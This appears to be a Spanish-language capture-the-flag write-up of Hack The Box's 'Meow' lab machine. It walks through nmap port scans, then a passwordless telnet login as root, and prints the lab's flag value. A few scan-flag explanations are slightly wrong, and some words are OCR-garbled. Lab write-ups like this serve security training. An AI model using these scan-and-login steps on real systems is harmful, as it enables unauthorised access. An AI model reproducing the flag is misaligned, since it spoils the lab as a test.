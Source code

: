 ```yaml
---
layout: single
title: Meow - Hack The Box
excerpt: "Meow es una máquina muy fácil que forma parte del Tier 0 de las máquinas para principiantes del Starting Point de Hack The Box. Para poder completar esta máquina, tendremos que conectarnos a ella a través de la VPN, para posteriormente comprometer la máquina mediante técnicas de reconocimiento para abusar de las vulnerabilidades existentes. En este caso, estaremos tocando Telnet, un protocolo de red que brinda a los usuarios una forma no segura de acceder a una computadora a través de una red."
date: 2022-10-25
classes: wide
header:
  teaser: /assets/images/htb-writeup-meow/meow-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - CTFs
  - Linux
tags:  
  - telnet
  - access with root and no password
---
```


![](/assets/images/htb-writeup-meow/meow-logo.png)

Meow es una máquina Linux muy fácil que forma parte del Tier 0 de las máquinas para principiantes del Starting Point de Hack The Box. Para poder completar esta máquina, tendremos que conectarnos a ella a través de la VPN, para posteriormente comprometer la máquina mediante técnicas de reconocimiento y escaneos para abusar de las vulnerabilidades existentes. En este caso, estaremos tocando `Telnet`, un protocolo de red antiguo que brinda a los usuarios una forma no segura de acceder a una computadora a través de una red.

## Reconocimiento Inicial

```
ping -c 1 10.129.1.17

PING 10.129.1.17 ( 10.129.1.17) 56(84) bytes of data.
64 bytes from 10.129.1.17: icmp_seq=1 ttl=63 time=44.5 ms

--- 10.129.1.17 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 44.477/44.477/44.477/0.000 ms
```

## Escaneo de Puertos

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.1.17 -oG allPorts

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 08:56 CEST
Initiating SYN Stealth Scan at 08:56
Scanning 10.129.1.17 [65535 ports]
Discovered open port 23/tcp on 10.129.1.17
Completed SYN Stealth Scan at 08:56, 15 .21s elapsed (65535 total ports)
Nmap scan report for 10.129.1.17
Host is up, received user-set (0.15s latency).
Scanned at 2022-08-13 CEST for 15s
Not shown: 63848 closed tcp ports (reset), 1686 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-rateltmtt
PORT STATE SERVICE REASON
23/tcp open telnet syn-ack ttl 63

Read data files from: /usr/bin/ . ./share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.39 seconds
    Raw packets sent: 76155 (3.351MB) I Rcvd: 68205 (2.728MB)
```

**Escaneo inicial de puertos abiertos con Nmap**
- **-p-** Escanea todo el rango de puertos [1-65535]
- **--open** Muestro solo los puertos abiertos
- **-sS** Aplica un TCP SYN Port Scan
- **--min-rate** Indica el número de paquetes por segundo a emitir
- **-vvv** Muestra por pantalla la información descubierta durante el escaneo
- **-n** Indica que no se aplicará resolución DNS durante el escaneo 
- **-Pn** Indica que no se aplicará el protocolo ARP durante el escaneo
- **-oG** Exporta el output del escaneo a un fichero en formato grepeable

![](/assets/images/htb-writeup-meow/allPorts.png)

```
sudo nmap -sCV -p23 10.129.1.17 -oN targeted 

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 09:00 CEST Nmap scan report for 10.129.1.17 Host is up (0.051s latency).

PORT   STATE SERVICE  VERSION
23/tcp open  telnet   Linux telnetd, Service Info: OS: Linux; CPE: cpe:/o:linux:linux kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 21.49 seconds
```

**Escaneo avanzado de detección de versiones y servicios con Nmap**
- **-p** Escanea los puertos especificados
- **-sV** Activa la detección de versiones y servicios
- **-sC** Lanza scripts básicos de reconocimiento y enumeración
- **-oG** Exporta el output del escaneo a un fichero en formato normal

![](/assets/images/htb-writeup-meow/targeted.png)

## Detección de vulnerabilidades

Como podemos ver en el escaneo, hemos identificado que el puerto `23/tcp` está
en estado abierto, ejecutando el servicio de telnet. `Telnet` es un protocolo de red
que brinda a los usuarios una forma no segura de acceder a una computadora
a través de una red. A veces, debido a errores de configuración, `algunas cuentas importantes pueden
quedar con contraseñas en blanco` en áreas de la accesibilidad, como la vulnerabilidad `Telnet Access with Root and No Password`. Este es un problema importante para algunos dispositivos de red o hosts, dejándolos abiertos
a ataques simples de fuerza bruta, donde el atacante puede intentar iniciar sesión secuencialmente, utilizando una lista de nombres de usuario sin entrada de
contraseña. 

**Algunas típicas cuentas importantes que hay que tener en cuenta son:**
- admin
- administrator
- root

## Explotación de vulnerabilidades

**Telnet**

```
telnet 10.129.1.17

Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.


Meow login:
```

Procedemos a conectarnos a `telnet` a través de la ip de la máquina víctima para
posteriormente acceder al servicio desde una cuenta sin contraseña probando
manualmente o con un diccionario y fuerza bruta. En este caso, probando distinas contraseñas manualmente, veremos que la cuenta `root` no nos pide contraseña para conectarnos.

```
telnet 10.129.1.17

Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.
Hack the fox


Meow login: root


Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

  * Documentation:  https://help.ubuntu.com
  * Management:     https://landscape.canonical.com
  * Support:        https://ubuntu.com/advantage

  System information as of Sat 13 Aug 2022 07:05:37 AM UTC
  
  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             139
  Users logged in:       0
  IPv4 address for etho: 10.129.1.17
  IPv6 address for etho: dead:beef::250:56ff:fe96:bc97

  * Super-optimized for small spaces - read how we shrank the memory
    footprint of Microkes to make it the smallest full K8s around.

    https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
```

Una vez iniciada la sesión en el sistema destino, tendremos acceso a la `flag.txt`.

```
Last login: Sat Aug 13 07:04:40 UTC 2022 on pts/0

root@Meow:~# ls
flag.txt snap

root@Meow:r# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```